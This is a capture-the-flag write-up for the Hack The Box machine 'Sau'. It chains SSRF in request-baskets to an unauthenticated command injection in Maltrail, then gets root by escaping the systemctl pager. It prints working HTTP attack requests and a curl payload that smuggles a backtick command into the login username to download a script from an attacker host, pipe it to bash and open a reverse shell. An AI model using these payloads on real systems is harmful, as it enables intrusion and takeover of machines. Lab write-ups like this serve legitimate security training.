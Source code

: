 # Sau

## Enumeration:

Start off with an nmap scan:
```vim
┌──(kali㉿kali)-[~/sau]
└─$ nmap -sV -sC -Pn -v -p- --min-rate=10000 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.19s latency).
Not shown: 64886 closed tcp ports (conn-refused), 647 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 09 Jul 2023 09:37:55 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 09 Jul 2023 09:37:25 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 09 Jul 2023 09:37:26 GMT
|_    Content-Length: 0
```

This reveals port 55555 which seems to have a redirect to `/web` so I am sure its a webserver.

Looking at the webpage, you can see `requests-basket v1.2.1` in the footer. I found the [Github](https://github.com/darklynx/request-baskets/tree/v1.2.1) for it and started to look for vulnerabilities. 

## Exploit:

I found this article about [CVE-2023-27163](https://notes.sjtu.edu.cn/s/MUUhEymt7#) which talks about an SSRF vulnerability in the `/api/baskets/{name}` endpoint with its `forward_url` parameter (and the `proxy_response` parameter has to be set to true to view the responses)

Make the following POST request in order to make a basket and to set the parameters at the same time:

```http
POST /api/baskets/lmao HTTP/1.1
Host: 10.10.11.224:55555
Content-Length: 115
Accept: */*
X-Requested-With: XMLHttpRequest
Authorization: null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Type: application/json
Origin: http://10.10.11.224:55555
Referer: http://10.10.11.224:55555/web
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"forward_url":"http://127.0.0.1:80","proxy_response":true,"insecure_tls":false,"expand_path":false,"capacity":200}
```

Now, any requests made to `http://10.10.11.224:55555/lmao` will be forwarded to `http://127.0.0.1:80` and we can view what is there (I tried the `file:///` protocol but it wasn't supported).

Visiting `http://10.10.11.224:55555/lmao` shows us a webapp which has the following in its footer: `Powered by Maltrail (v0.53)`

I look for exploits regarding Maltrail and find the following: https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/

The above article talks about an unauthenticated command injection vulnerability in the `/login` endpoint.

Send the following HTTP request to update the config of the lmao bucket in order to forward requests to the `/login` endpoint:

```http
PUT /api/baskets/lmao HTTP/1.1
Host: 10.10.11.224:55555
Content-Length: 121
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Authorization: 3x-y26Lk3qN9yVWgI8S2K5KJoFLPyflx-abLSfHOb57D
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.11.224:55555
Referer: http://10.10.11.224:55555/web/lmao
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"forward_url":"http://127.0.0.1:80/login","proxy_response":true,"insecure_tls":false,"expand_path":false,"capacity":200}
```

We can make the following request with cURL to exploit it: 
```vim
curl 'http://10.10.11.224:55555/lmao' --data 'username=;`curl http://10.10.14.21:8000/script.sh | bash`'
```

You will need to have a Simple web server set up with `python -m http.server 8000` containing `script.sh` which contains a normal bash reverse shell and have a netcat listener on port 9000.

Sending the cURL command through, we will get access to the machine with the `puma` user. Use `ssh-keygen` to set up the ssh keys and get an SSH connection.

User Flag is in `/home/puma/user.txt`

## Privilege Escalation:

Run `sudo -l` and we see the following output:

```vim
puma@sau:/dev/shm$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This says that we can run the `systemctl` command as root, however since we have extra parameters set, we can't use any GTFObins route. Looking further into exploits, I found the following article about [CVE-2023-26604](https://securityonline.info/cve-2023-26604-systemd-privilege-escalation-flaw-affects-linux-distros).

This CVE talks about how, prior to `systemd v247`, `systemctl` would run `cat` to display the output, however if the terminal size is too small, then it will use the `less` pager to show output. Since `systemctl` is being run as root, we can exploit the `less` command by making the terminal size really small and then running `!`. This will give you a root shell.

Root flag can be found in `root.txt`
